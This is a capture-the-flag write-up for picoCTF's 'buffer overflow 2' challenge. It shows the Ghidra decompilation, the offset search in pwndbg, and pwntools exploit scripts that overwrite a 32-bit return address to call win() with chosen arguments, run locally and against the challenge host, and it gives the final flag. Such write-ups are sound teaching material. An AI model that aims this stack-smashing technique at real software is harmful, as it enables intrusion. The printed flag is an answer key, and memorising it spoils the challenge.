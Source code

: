 # buffer overflow 2 solution
like in buffer overflow 1,

first, i make the file executable locally using 
``` chmod +x ./vuln```

i run ```file ./vuln``` to get that ```./vuln``` is a ```ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped```

i then run ```./vuln``` using ghidra and i find that it has a ```win()``` function which will print the flag for me once i overflow into it.

but it's a little different from buffer overflow 1, because it now has two arguments.
```
void win(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x35010ff3) && (param_2 == -0xff20ff3)) {
      printf(local_50);
    }
    return;
  }
  printf("%s %s","Please create \'flag.txt\' in this directory with your","own debugging flag.\n");
                    // WARNING: Subroutine does not return
  exit(0);
}
```

then i use pwndbg to find the offset again:
1. ```gdb ./vuln```, which will enter pwndbg.
2. since ```./vuln``` is a 32 bit executable, i run ```cyclic 100 -n 4``` in pwndbg again.
3. however, when i run this, the program does not crash, as it is not long enough.

![cyclic.png](images/cyclic.png)

4. so i lengthen it to `cyclic 256 -n 4`, then run it by entering `r`. this cyclic sequence is long enough, as it crashes my program. 

![crash.png](images/crash.png)

5. the program crashes and shows me the address, which in this case is `0x62616164 in ?? ()`, so `0x62616164` is where the program crashed.
6. i will then use `cyclic -l 0x62616164` to find the offset, in this case it is 112.

![offset.png](images/offset.png)

7. now that i've found the offset, all i need to do is to obtain the address of the `win()` function so that i can overflow into it. however, this is a little different from buffer overflow 1 as the grepping the win function now gives me 4 different addresses.

![win_locs.png](images/win_locs.png)

8. so i disassemble the `win()` function, and i find the addresses `0xcafef00d` and `0xf00df00d`.

![disass_win_1.png](images/disass_win_1.png)
![disass_win_2.png](images/disass_win_2.png)

9. i can begin crafting the payload from the beginning of the win function, which is `0x08049296`. we need to push things onto the stack in reverse order in order for `win(param_1, param_2)` to work. the return address gets overwritten with `win()` — execution jumps to the win address after `vuln()` returns.

```
from pwn import *

padding = b"A" * 112
win_addr = p32(0x08049296)
ret_after_win = b"BBBB"           # Dummy return address. After win() returns, it still tries to ret, so we need a dummy address

#goes after win() gets called, it expects its args to be on top of the stack
#call win will push ret_after_win, and win() will use [ebp+8] and [ebp+12] as param_1 and param_2

arg1 = p32(0xCAFEF00D)            # param_1
arg2 = p32(0xF00DF00D)            # param_2

# this works because in x86 calling conventions, arguments are pushed onto the stack in reverse order, and the ret statement will pop the return address, setting EIP to win

payload = padding + win_addr + ret_after_win + arg1 + arg2

p = process("./vuln")
p.sendline(payload)
p.interactive()
```
it pushes out my test flag, `picoCTF{test_flag}` which was the same thing i used for buffer overflow 1. this means that it worked!

10. now i can apply the same thing and change the python file to run on the address that picoCTF gave me, and i'll get the flag!
```
from pwn import *

HOST = "saturn.picoctf.net"  # actual host
PORT = 56960                 # actual port

padding = b"A" * 112
win_addr = p32(0x08049296)
ret_after_win = b"BBBB"           # Dummy return address
arg1 = p32(0xCAFEF00D)            # param_1
arg2 = p32(0xF00DF00D)            # param_2

payload = padding + win_addr + ret_after_win + arg1 + arg2

p = remote(HOST, PORT)
p.sendline(payload)
p.interactive()
```
and voila, flag obtained!

IMAGE

flag: `picoCTF{argum3nt5_4_d4yZ_3c04eab0}`
